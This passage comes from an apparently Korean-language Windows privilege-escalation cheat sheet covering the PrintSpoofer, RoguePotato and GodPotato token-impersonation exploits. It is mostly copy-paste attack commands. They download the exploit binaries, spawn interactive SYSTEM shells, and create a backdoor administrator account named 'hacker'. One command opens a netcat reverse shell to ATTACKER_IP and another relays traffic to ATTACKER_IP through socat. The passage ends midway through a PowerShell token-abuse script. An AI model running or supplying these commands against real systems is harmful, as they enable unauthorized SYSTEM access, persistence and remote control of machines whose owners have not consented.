 ### 🖨️ PrintSpoofer (Windows 10 1809+, Server 2019+)

```cmd
:: PrintSpoofer 다운로드 및 실행
powershell -c "Invoke-WebRequest -Uri 'https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe' -OutFile 'PrintSpoofer.exe'"

:: 대화형 SYSTEM 쉘
PrintSpoofer.exe -i -c cmd

:: 관리자 계정 생성
PrintSpoofer.exe -c "net user hacker password123 /add & net localgroup administrators hacker /add"

:: PowerShell 쉘 실행
PrintSpoofer.exe -i -c powershell
```

### 🥔 RoguePotato (제한된 네트워크 환경)

```cmd
:: RoguePotato 다운로드
powershell -c "Invoke-WebRequest -Uri 'https://github.com/antonioCoco/RoguePotato/releases/download/1.0/RoguePotato.exe' -OutFile 'RoguePotato.exe'"

:: 외부 서버와 함께 실행 (공격자 머신에서 socat 실행 필요)
:: 공격자 머신: socat tcp-listen:135,reuseaddr,fork tcp:TARGET_IP:9999
RoguePotato.exe -r ATTACKER_IP -e "cmd.exe" -l 9999

:: 로컬 릴레이 서버 사용
RoguePotato.exe -r 127.0.0.1 -e "cmd.exe" -l 9999 -s
```

### 🔱 GodPotato (최신 Windows 버전)

```cmd
:: GodPotato 다운로드 및 실행
powershell -c "Invoke-WebRequest -Uri 'https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe' -OutFile 'GodPotato.exe'"

:: 명령 실행
GodPotato.exe -cmd "cmd /c whoami"

:: 관리자 계정 생성
GodPotato.exe -cmd "net user hacker password123 /add & net localgroup administrators hacker /add"

:: 대화형 쉘 (nc.exe 필요)
GodPotato.exe -cmd "nc.exe -e cmd.exe ATTACKER_IP 4444"
```

### 🔧 Token 조작 PowerShell 스크립트

```powershell
# Token 조작 종합 스크립트 (복붙용)
function Invoke-TokenAbuse {
    Write-Host "===== TOKEN PRIVILEGE ABUSE SCRIPT =====" -ForegroundColor Green

    # 1. 현재 권한 확인
    Write-Host "`n[+] Current Token Privileges:" -ForegroundColor Yellow
    whoami /priv

    # 2. SeImpersonatePrivilege 확인
    $impersonate = whoami /priv | Select-String "SeImpersonatePrivilege"
    if ($impersonate -and $impersonate.ToString().Contains("Enabled")) {
        Write-Host "`n[!] SeImpersonatePrivilege is ENABLED!" -ForegroundColor Red
        Write-Host "Try: JuicyPotato, PrintSpoofer, or RoguePotato" -ForegroundColor Red
```